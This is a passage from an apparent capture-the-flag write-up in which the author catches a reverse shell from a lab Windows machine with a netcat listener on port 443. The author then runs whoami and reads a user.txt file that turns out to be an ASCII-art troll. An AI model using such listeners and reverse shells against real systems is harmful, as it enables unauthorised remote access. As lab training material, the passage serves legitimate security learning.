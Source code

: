 After some amount of time (can be up to 10-15 minutes if the server has a lot in memory), I get a shell:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.112.
Ncat: Connection from 10.10.10.112:64296.
Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\nginx>whoami
piedpiper\nelson

```

I can go grab `user.txt`, but it’s a troll:

```

C:\Users\Nelson\Desktop>type user.txt

    .-''-.  .-------.      .---.    .-./`)     _______   .---.  .---.
  .'_ _   \ |  _ _   \     | ,_|    \ .-.')   /   __  \  |   |  |_ _|
 / ( ` )   '| ( ' )  |   ,-./  )    / `-' \  | ,_/  \__) |   |  ( ' )
. (_ o _)  ||(_ o _) /   \  '_ '`)   `-'`"`,-./  )       |   '-(_{;}_)
|  (_,_)___|| (_,_).' __  > (_)  )   .---. \  '_ '`)     |      (_,_)
'  \   .---.|  |\ \  |  |(  .  .-'   |   |  > (_)  )  __ | _ _--.   |
 \  `-'    /|  | \ `'   / `-'`-'|___ |   | (  .  .-'_/  )|( ' ) |   |
  \       / |  |  \    /   |        \|   |  `-'`-'     / (_{;}_)|   |
   `'-..-'  ''-'   `'-'    `--------`'---'    `._____.'  '(_,_) '---'
          .---.       ,-----.    ,---.  ,---.   .-''-.     .-'''-.
          | ,_|     .'  .-,  '.  |   /  |   | .'_ _   \   / _     \
        ,-./  )    / ,-.|  \ _ \ |  |   |  .'/ ( ` )   ' (`' )/`--'
        \  '_ '`) ;  \  '_ /  | :|  | _ |  |. (_ o _)  |(_ o _).
         > (_)  ) |  _`,/ \ _/  ||  _( )_  ||  (_,_)___| (_,_). '.
        (  .  .-' : (  '\_/ \   ;\ (_ o._) /'  \   .---..---.  \  :
         `-'`-'|___\ `"/  \  ) /  \ (_,_) /  \  `-'    /\    `-'  |
          |        \'. \_/``".'    \     /    \       /  \       /
          `--------`  '-----'       `---`      `'-..-'    `-...-'
                ,---------. .---.  .---.     .-''-.
                \          \|   |  |_ _|   .'_ _   \
                 `--.  ,---'|   |  ( ' )  / ( ` )   '
                    |   \   |   '-(_{;}_). (_ o _)  |
                    :_ _:   |      (_,_) |  (_,_)___|
                    (_I_)   | _ _--.   | '  \   .---.
                   (_(=)_)  |( ' ) |   |  \  `-'    /
                    (_I_)   (_{;}_)|   |   \       /
                    '---'   '(_,_) '---'    `'-..-'
                             .---.  .---.    ____       .-'''-. .---.  .---.
      .-,                    |   |  |_ _|  .'  __ `.   / _     \|   |  |_ _|
   ,-.|  \ _                 |   |  ( ' ) /   '  \  \ (`' )/`--'|   |  ( ' )
   \  '_ /  |                |   '-(_{;}_)|___|  /  |(_ o _).   |   '-(_{;}_)
   _`,/ \ _/                 |      (_,_)    _.-`   | (_,_). '. |      (_,_)
  (  '\_/ \                  | _ _--.   | .'   _    |.---.  \  :| _ _--.   |
   `"/  \  )                 |( ' ) |   | |  _( )_  |\    `-'  ||( ' ) |   |
     \_/``"                  (_{;}_)|   | \ (_ o _) / \       / (_{;}_)|   |
                             '(_,_) '---'  '.(_,_).'   `-...-'  '(_,_) '---'

```
